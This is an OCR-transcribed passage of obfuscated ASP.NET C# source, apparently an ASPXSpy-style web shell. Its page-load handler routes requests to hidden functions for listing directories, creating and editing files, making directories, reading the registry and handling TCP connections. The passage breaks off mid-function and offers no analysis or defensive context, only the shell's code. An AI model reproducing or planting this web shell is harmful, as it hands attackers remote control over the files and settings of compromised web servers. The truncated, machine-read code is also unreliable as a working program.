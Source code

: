 public NetworkStream NS1=null;
TcpClient tcp=new TcpClient();
TcpClient zvxm=new TcpClient();
ArrayList IVc=new ArrayList();
protected void Page_load(object sender,EventArgs e)
{
YFcNP(this);
fhAEn();
if (!pdo())
{
return;
}
if(IsPostBack)
{
string tkI=Request["__EVENTTARGET"];
string VqV=Request["__File"];
if(tkI!="")
{
switch(tkI)
{
case "Bin_Parent":
krIR(Ebgw(VqV));
break;
case "Bin_Listdir":
krIR(Ebgw(VqV));
break;
case "kRXgt":
kRXgt(Ebgw(VqV));
break;
case "Bin_Createfile":
gLKc(VqV);
break;
case "Bin_Editfile":
gLKc(VqV);
break;
case "Bin_Createdir":
stNPw(VqV);
break;
case "cYAl":
cYAl(VqV);
break;
case "ksGR":
ksGR(Ebgw(VqV));
break;
case "SJv":
SJv(VqV);
break;
case "Bin_Regread":
tpRQ(Ebgw(VqV));
break;
case "hae":
hae();
break;
case "urJG":
urJG(VqV);
break;
}
if(tkI.StartsWith("dAJTD"))
{
dAJTD(Ebgw(tkI.Replace("dAJTD","")),VqV);
}
else if(tkI.StartsWith("Tlvz"))
{
Tlvz(Ebgw(tkI.Replace("Tlvz","")),VqV);